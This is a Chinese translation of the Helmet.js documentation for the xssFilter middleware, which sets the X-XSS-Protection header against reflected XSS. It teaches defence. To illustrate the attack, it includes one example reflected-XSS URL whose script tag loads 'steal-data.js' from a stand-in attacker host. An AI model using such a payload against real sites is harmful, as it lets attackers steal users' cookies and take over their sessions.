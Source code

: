 ```yaml
---
title: xssFilter
---
```


# xssFilter <Badge text='默认启用' />

[原文链接](https://helmetjs.github.io/docs/xss-filter/)

简介：`xssFilter`中间件设置了`X-XSS-Protection`报头来阻止反射性XSS攻击。

## 攻击方式

跨站脚本攻击(XSS，Cross-site scripting)是能够让攻击者接管页面的一种攻击方式。XSS攻击的目标是获得对受害者浏览器中JavaScript的控制。一旦黑客得手，他们就能做很多无下限的事情：记录你的行为、冒充你、窃取你的认证cookie等等。

XSS是一个千面兽，篇幅所限我们不会介绍所有内容。把握重点：如果有人能在你的页面上运行JavaScript，那么他们就能够攻击你的用户。我们必须采取措施。

其中一种XSS名为“反射性XSS”。通常，它通过设置一个直接放入HTML的查询字符串来搞事情。在查询字符串中放入JavaScript可以让攻击者通过给用户发送恶意字符串来执行它们的JavaScript。

举个例子，我们假设您运行了一个名为Goober的搜索引擎。每次进行搜索时，它都会在搜索结果的正上方显示搜索关键词。比方说我们搜索了"javascript jokes"。

页面可能像下面这样：

![image](/helmet-docs-zh-CN/images/xss-filter-ok.png)

那么如果我们搜索的是`<script src="http://evil.example.com/steal-data.js"></script>`会发生什么情况呢？URL可能会显示成下面这样：

```bash
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

然后你的页面会出现什么呢：

![image](/helmet-docs-zh-CN/images/xss-filter-malicious.png)

瞧，恶意JavaScript文件就这样执行了，就很烦。

扩展阅读

- [Guide to understanding XSS](http://www.securesolutions.no/xss-explained/)
- [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/XSS)
- [What is Reflected XSS?](http://security.stackexchange.com/q/65142)
- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

## 报头详解

首先需要明确的是:这个报头并不能很好地保护您免受XSS攻击。它仅是其中一种特殊的XSS的防范措施。它提供了一个开箱即用的基本保护，但是这个报头并不能把你从XSS攻击中拯救出来。

浏览器很容易检测到简单的反射性XSS。在上面的示例中，如果\<script\>标签与查询字符串中的内容匹配，浏览器可以选择不执行其中的JavaScript。有些浏览器默认情况下会进行这种检测，但有些则不会。要使这些浏览器也检查这个情况，您可以设置`X-XSS-Protection`报头值为`1`;`mode=block`。

这就会告诉浏览器检测并屏蔽反射性XSS。

在旧版本的IE浏览器中，这个报头会导致更糟糕的安全漏洞，因此禁用它很明智。

扩展阅读：

- [“Controlling the XSS Filter” on MSDN](http://blogs.msdn.com/b/ieinternals/archive/2011/01/31/controlling-the-internet-explorer-xss-filter-with-the-x-xss-protection-http-header.aspx)
- [“IE’s XSS Filter Creates XSS Vulnerabilities”](http://hackademix.net/2009/11/21/ies-xss-filter-creates-xss-vulnerabilities/)
- [“XSS Filter Script Handling Vulnerability - CVE-2009-4074”](https://technet.microsoft.com/library/security/ms10-002#XSS%20Filter%20Script%20Handling%20Vulnerability%20-%20CVE-2009-4074)

## 代码

Helmet的`xssFilter`中间件很简单，它仅仅设置了`X-XSS-Protection`报头。在大多数浏览器中它会被设置为`1; mode=block`。但在旧版本的IE浏览器中，它会被设置成`0`以禁用。

您可以作为Helmet模块的内部方法来使用：

```js
// Make sure you run "npm install helmet" to get the Helmet package.
const helmet = require('helmet')

// Sets "X-XSS-Protection: 1; mode=block".
app.use(helmet.xssFilter())
```

也可以单独使用：

```js
// Make sure you run "npm install x-xss-protection" to get this package.
const xssFilter = require('x-xss-protection')

// Sets "X-XSS-Protection: 1; mode=block".
app.use(xssFilter())
```

若要在所有版本的IE浏览器中也设置成`1; mode=block`，那么：

```js
// 警告⚠️ 这样在老版本IE浏览器会产生安全隐患
app.use(xssFilter({ setOnOldIE: true }))
```

您还可以配置一个上报URI，浏览器会将违规行为进行上报。[尽管只有Chrome浏览器支持](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/X-XSS-Protection)。

```js
app.use(xssFilter({ reportUri: '/report-xss-violation' }))
```

若想移除`mode=block`, **我们不推荐这么做**，则将`mode`设置为`null`:

```js
app.use(xssFilter({ mode: null }))
```

